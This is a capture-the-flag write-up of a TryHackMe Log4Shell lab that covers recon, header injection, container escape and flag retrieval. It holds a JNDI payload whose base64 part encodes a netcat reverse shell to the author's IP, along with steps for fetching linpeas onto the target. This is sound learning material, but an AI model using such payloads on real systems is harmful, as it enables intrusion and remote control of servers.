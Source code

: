 ```yaml
---
title: LumberJack-writeup-THM
date: '2022-01-18 15:23:05 +0200'
categories:
  -Log4j
tags: THM Log4j
published: true
---
```



## Status

 Hello everyone this is my first ctf writeup. Name of the box is Lumberjack from tryhackme, it’s based on Log4j (CVE-2021-44228) it is a medium level challenge.

Created by : SilverStr

Let’s start with basic recons

Recon:

nmap -sC -sV -Pn 10.10.120.161

![image](https://i.imgur.com/kkQdBV9.png)

Results from nmap showed 2 open ports

In ssh there is nothing to see so went to check up the http port 80.

\--------------------------------------------------------------------------------------------------------------------------------------
## lets start
![image](https://i.imgur.com/znguXwU.png)

Nothing to see in this port. After that I used burp to capture the request of this site.

![image](https://i.imgur.com/VeMZtpN.png) 

They give a resource to refer the log4j vulnerability. 

![image](https://i.imgur.com/uhrIwin.png)

**References used to make this room:**

- [Lunasec.io blog post on Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/)
- [Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)
- [CVE-2021-44228 – Log4j 2 Vulnerability Analysis](https://www.randori.com/blog/cve-2021-44228/)
- Malicious LDAP servers are fun. (Come on.... work for it a bit)

I send the request to repeater and I used basic payload of log4j to manipulate the request via the user agent but I didn’t get any proper response. 

![image](https://i.imgur.com/qjM9aJH.png)

I saw the accept “request header” in burp .so, I decided to send the payload via the accept header.

![image](https://i.imgur.com/Jnj3lL2.png)

I got the proper response via this accept header.

Let’s try to get shell using JNDIexploit...

Java -jar JNDIExlpoit-1.2-SNAPSHOT.jar -u

![image](https://i.imgur.com/uREj2Bv.png)

I used this payload for the reverse shell via nc.

Let’s set the exploit:

![image](https://i.imgur.com/GrsdUPz.png)

Reverse shell payload to base 64.

${jndi:ldap://10.8.19.239:1389/Basic/Command/Base64/cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDEwLjguMTkuMjM5IDQ0NDQgPi90bXAvZg==}


![image](https://i.imgur.com/Cg2XA34.png)

I send the payload via the accept header. 

![image](https://i.imgur.com/37NrKQu.png)

Finally, I got the shell. Let’s find the 1st flag;

![image](https://i.imgur.com/ibUyBtP.png)

It’s a docker environment... I go to the opt directory for flag’s 


![image](https://i.imgur.com/lM2qnBa.png)



I got the 1st flag …

cat .flag1 

Let’s check for 2nd flag, after long time I decide to use linpease to know vulnerabilities.

I will set the python server to get the linpeas from my machine to that vuln machine.

![image](https://i.imgur.com/898sjck.png)

Let’s give the execute permission to the linpeas chmod +x linpeas.sh and run the linpeas

I saw the suid unmount in the bin directory..

![image](https://i.imgur.com/ZIYlfIi.png)

Let’s see what is in dev directory, I found some directories which is unmounted on disk.

![image](https://i.imgur.com/Ux2QzX9.png)  

Make the empty directory in the tmp directory ‘123’ to mount it. 

![image](https://i.imgur.com/44fEVXe.png)

After that I will go to the root directory which is on mounted folder ‘123’

![image](https://i.imgur.com/CWwj8DS.png)






On the root directory I saw the root.txt, but here I got depressed. 

![image](https://i.imgur.com/44YLZZF.png) 

After few moments I saw the directory which is ‘…’ 

cd …;ls -la

cat .\_fLaG2

![image](https://i.imgur.com/cyDyJ8y.png)

At last, I found the final flag. A wonderful medium level ctf to know what is log4j and how its working





`                          `……….….…………….Happy learning & Hunting ………………………




